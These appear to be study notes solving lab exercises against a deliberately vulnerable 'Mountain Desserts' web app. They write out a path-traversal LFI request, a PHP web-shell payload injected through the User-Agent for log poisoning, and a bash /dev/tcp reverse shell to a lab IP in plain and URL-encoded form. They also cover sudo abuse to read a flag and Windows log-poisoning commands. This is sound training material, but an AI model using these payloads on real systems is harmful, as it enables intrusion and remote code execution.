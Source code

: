 1. Follow the steps in this section and leverage the LFI vulnerability in the web application (located at **http://mountaindesserts.com/meteor/**) to receive a reverse shell on WEB18 (VM #1). Get the flag from the **/home/ariella/flag.txt** file. To display the contents of the file, check your sudo privileges with **sudo -l** and use them to read the flag.

```bash
# Accessing the logs
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

# Poisoning the logs
# Adding the following in the User Agent section:
<?php echo system($_GET['cmd']); ?>

# Exploiting the logs

```
![[Pasted image 20250311222825.png]]


```bash
# Running a reverse shell command
nc -lvnp 4444 # On the kali

# Command to run
bash -c "bash -i >& /dev/tcp/192.168.45.181/4444 0>&1"

# Encoded command
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.181%2F4444%200%3E%261%22
```

CyberChef receipe to encode:
https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=YmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE4MS80NDQ0IDA%2BJjEi

Shell achieved!

Checking what we can run:

```bash
sudo -l
```
![[Pasted image 20250311224357.png]]

This means we can run any command with root privileges.

```bash
sudo cat /home/ariella/flag.txt
```
![[Pasted image 20250311224548.png]]


2. Exploit the LFI vulnerability in the web application "Mountain Desserts" on WEB18 (VM #2) (located at **http://mountaindesserts.com/meteor/**) to execute the PHP **/opt/admin.bak.php** file with Burp or curl. Enter the flag from the output.

```bash
# Reusing the same initial idea:
GET /meteor/index.php?page=../../../../../../../../../opt/admin.bak.php HTTP/1.1
```
![[Pasted image 20250311225908.png]]


3. The "Mountain Desserts" web application now runs on VM #3 at **http://192.168.50.193/meteor/** (The third octet of the IP address in the URL needs to be adjusted). Use the LFI vulnerability in combination with Log Poisoning to execute the _dir_ command. Poison the **access.log** log in the XAMPP **C:\xampp\apache\logs** log directory . Find the flag in one of the files from the **dir** command output.

```bash
# Accessing the logs
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../xampp/apache/logs/access.log

# Reading the content
type C:\xampp\apache\logs\*
cmd=type%20C%3A%5Cxampp%5Capache%5Clogs%5C%2A

# Listing the files
cmd=dir
```
![[Pasted image 20250311231349.png]]

```bash
# Reading the content of the file
```
![[Pasted image 20250311231417.png]]